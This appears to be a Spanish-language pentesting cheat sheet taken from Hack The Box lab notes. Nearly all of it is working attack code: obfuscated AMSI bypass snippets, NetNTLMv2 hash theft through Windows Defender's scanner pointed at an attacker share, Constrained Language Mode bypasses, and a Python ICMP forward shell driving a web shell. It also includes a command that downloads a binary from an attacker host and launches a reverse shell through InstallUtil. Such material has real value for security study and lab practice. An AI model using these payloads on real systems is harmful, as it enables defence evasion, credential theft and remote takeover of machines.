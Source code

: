 # Bypassing

## AMSI

### Automatización de WinRM

```
*Evil-WinRM* PS C:\Users\melanie\Desktop> Bypass-4MSI

Info: Patching 4MSI, please be patient...

[+] Success!
```

### Corromper tarea (Condición de carrera)

```
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)
```

```
PS C:\Users\Sierra.Frye\Documents>

$a='si';$b='Am';$Ref=[Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils'-f $b,$a)); $z=$Ref.GetField(('am{0}InitFailed'-f$a),'NonPublic,Static');$z.SetValue($null,$true)
```

## Obtención de hash NetNTLMv2 con Windows Defender

```
*Evil-WinRM* PS C:\Program Files\Windows Defender> ./MpCmdRun.exe -Scan -ScanType 3 -File \\10.10.16.6\test
```

## CLM

### Detección

```
[10.10.10.210]: PS> $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
```

### PSSessions

```
PS /home/rubbx/Desktop/HTB/Machines/Reel2> Enter-PSSession -ComputerName 10.10.10.210 -Credential $Cred -Authentication Negotiate
```

### Ejecución de comandos con funciones

```
[10.10.10.210]: PS> function bypassCLM { whoami }
[10.10.10.210]: PS>bypassCLM
htb\k.svensson
```

## ICMP Forward Shell

```python
#!/usr/bin/env python3import base64import requestsimport threadingfrom cmd import Cmdfrom scapy.all import *from urllib.parse import quoteclass Term(Cmd):    prompt = "[~] - "    cmd_payload = """$cmd = '{cmd}'; $step=1000; $ping = New-Object System.Net.NetworkInformation.Ping; $opts = New-Object System.Net.NetworkInformation.PingOptions; $opts.DontFragment = $true; $res=(iex -command $cmd|out-string); $data = [System.Text.Encoding]::ASCII.GetBytes($res); $i=0; while($i -lt $data.length)"""    def __init__(self):        super().__init__()        thread = threading.Thread(target=self.listen_thread, args=())        thread.daemon = True        thread.start()    def listen_thread(self):        sniff(filter="icmp and src 10.10.10.57", iface="tun0", prn=self.handle_icmp)    def handle_icmp(self, pkt):        print(pkt[Raw].load.decode(), end="")        sys.stdout.flush()    def default(self, args):        cmd = self.cmd_payload.format(cmd=args)        enccmd = quote(quote(base64.b64encode(cmd.encode('utf-16le')).decode()))        requests.get(f'http://10.10.10.57:62696/test.asp?u=http://127.0.0.1:80/cmd.aspx?xcmd=powershell+-enc+{enccmd}')term = Term()try:    term.cmdloop()except KeyboardInterrupt:    print()
```

## Python

Es posible eliminar la ruta que se obtiene de la ruta actual con `getcwd()` pasándole como argumento un path pero con una barra al principio

```
python3
Python 3.11.2 (main, Feb 12 2023, 00:48:52) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.path.join(os.getcwd(), "public", "uploads", "test")
'/home/rubbx/Desktop/HTB/Machines/OpenSource/source/app/app/public/uploads/test'
```

En este ejemplo con la cadena `/test`

```
>>> os.path.join(os.getcwd(), "public", "uploads", "/test")
'/test'
```

### Cifrado documentos Office

Al descomprimir el documento, se puede eliminar el hash que contiene a la contraseña

```
unzip Desktop_Phishing_Attempt.xlsx
```

```
<sheetProtection algorithmName="SHA-512" hashValue="hFq32ZstMEekuneGzHEfxeBZh3hnmO9nvv8qVHV8Ux+t+39/22E3pfr8aSuXISfrRV9UVfNEzidgv+Uvf8C5Tg=="
```

```
zip -r Desktop_Phishing_Attempt.xlsx *
```

## CLM Evasion

```jsx
$ExecutionContext.SessionState.LanguageMode
iwr -uri http://10.10.14.13/PsBypassCLM.exe -o C:\Temp\PsBypassCLM.exe
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.14.13 /rport=443 /U C:\Temp\PsBypassCLM.exe
```